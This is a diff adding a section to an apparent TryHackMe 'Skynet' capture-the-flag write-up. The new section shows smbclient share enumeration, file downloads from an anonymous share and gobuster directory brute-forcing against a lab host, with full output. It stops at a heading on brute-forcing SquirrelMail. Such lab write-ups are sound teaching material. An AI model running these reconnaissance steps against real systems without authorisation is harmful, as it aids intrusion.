

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/skynet.md, in a window 1280 px wide and 1400 px high, scrolled down 1879 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/skynet.md
+++ b/source/docs/thm/skynet.md
@@ -94,3 +94,94 @@ HOP RTT      ADDRESS
 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sat Oct  1 02:02:55 2022 -- 1 IP address (1 host up) scanned in 17.78 seconds
 ```
+
+### Investigating SMB
+
+    # smbclient -L 10.10.62.253
+    Password for [WORKGROUP\root]:
+
+        Sharename       Type      Comment
+        ---------       ----      -------
+        print$          Disk      Printer Drivers
+        anonymous       Disk      Skynet Anonymous Share
+        milesdyson      Disk      Miles Dyson Personal Share
+        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
+    Reconnecting with SMB1 for workgroup listing.
+
+        Server               Comment
+        ---------            -------
+
+        Workgroup            Master
+        ---------            -------
+        WORKGROUP            SKYNET
+
+Aha, there's an anonymous share. Connect:
+
+    # smbclient //10.10.62.253/anonymous
+    Password for [WORKGROUP\root]:
+    Try "help" to get a list of possible commands.
+    smb: \>
+
+Explore the anonymous share:
+
+    smb: \> dir
+      .                                   D        0  Thu Nov 26 16:04:00 2020
+      ..                                  D        0  Tue Sep 17 08:20:17 2019
+      attention.txt                       N      163  Wed Sep 18 04:04:59 2019
+      logs                                D        0  Wed Sep 18 05:42:16 2019
+
+            9204224 blocks of size 1024. 5831512 blocks available
+    smb: \> get attention.txt
+    getting file \attention.txt of size 163 as attention.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
+    smb: \> cd logs
+    smb: \logs\> dir
+      .                                   D        0  Wed Sep 18 05:42:16 2019
+      ..                                  D        0  Thu Nov 26 16:04:00 2020
+      log2.txt                            N        0  Wed Sep 18 05:42:13 2019
+      log1.txt                            N      471  Wed Sep 18 05:41:59 2019
+      log3.txt                            N        0  Wed Sep 18 05:42:16 2019
+
+            9204224 blocks of size 1024. 5831512 blocks available
+    smb: \logs\> mget *
+    Get file log2.txt? y
+    getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.6 KiloBytes/sec)
+    Get file log1.txt? y
+    getting file \logs\log1.txt of size 471 as log1.txt (2.8 KiloBytes/sec) (average 1.4 KiloBytes/sec)
+    Get file log3.txt? y
+    getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 1.1 KiloBytes/sec)
+    smb: \logs\> exit
+
+Find hidden files or directories using gobuster:
+
+    # gobuster dir -u http://10.10.62.253/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 50
+    ===============================================================
+    Gobuster v3.1.0
+    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+    ===============================================================
+    [+] Url:                     http://10.10.62.253/
+    [+] Method:                  GET
+    [+] Threads:                 50
+    [+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
+    [+] Negative Status codes:   404
+    [+] User Agent:              gobuster/3.1.0
+    [+] Extensions:              php,html,txt
+    [+] Timeout:                 10s
+    ===============================================================
+    2022/10/01 02:21:00 Starting gobuster in directory enumeration mode
+    ===============================================================
+    /index.html           (Status: 200) [Size: 523]
+    /admin                (Status: 301) [Size: 312] [--> http://10.10.62.253/admin/]
+    /css                  (Status: 301) [Size: 310] [--> http://10.10.62.253/css/]
+    /js                   (Status: 301) [Size: 309] [--> http://10.10.62.253/js/]
+    /config               (Status: 301) [Size: 313] [--> http://10.10.62.253/config/]
+    /ai                   (Status: 301) [Size: 309] [--> http://10.10.62.253/ai/]
+    /squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.62.253/squirrelmail/]
+    /server-status        (Status: 403) [Size: 277]
+
+    ===============================================================
+    2022/10/01 02:33:34 Finished
+    ===============================================================
+
+A squirrelmail entry.
+
+### Brute-forcing squirrelmail
````
